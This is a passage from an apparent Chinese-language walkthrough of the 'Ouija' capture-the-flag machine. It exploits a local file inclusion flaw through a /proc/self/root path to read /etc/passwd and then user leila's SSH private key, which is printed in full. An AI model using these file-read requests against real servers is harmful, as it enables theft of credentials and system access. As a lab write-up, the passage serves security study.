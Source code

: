    我们可以通过.config/bin/process_informations来访问/porc，/proc是Linux中的虚拟文件系统，提供有关进程和系统信息的信息

   我们可以通过访问`/proc/self/root/`来访问根目录的进程所看到的根目录。


2. 通过`GET /file/get?file=.config/bin/process_informations/self/root/etc/passwd`验证了此处存在LFI

   ![image-20231207164121542](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072320887.png)

3. 注意到在ouija.htb:3000/file/get中的LFI得到的/etc/passwd跟dev.ouija.htb中的LFI不一样，大概是因为存在于两个不同的容器中。

   这里发现了除了root外还有一个leila可以用于登录。

   利用LFI获取该用户的ssh私钥(id_rsa)。

   ```
   GET /file/get?file=.config/bin/process_informations/self/root/home/leila/.ssh/id_rsa
   ```

   ![image-20231207164633074](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202312072320662.png)

   leila的ssh私钥

   ```
   -----BEGIN OPENSSH PRIVATE KEY-----
   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
   DvfM2TbsfLo4kAAAALbGVpbGFAb3VpamE=
   -----END OPENSSH PRIVATE KEY-----
   ```
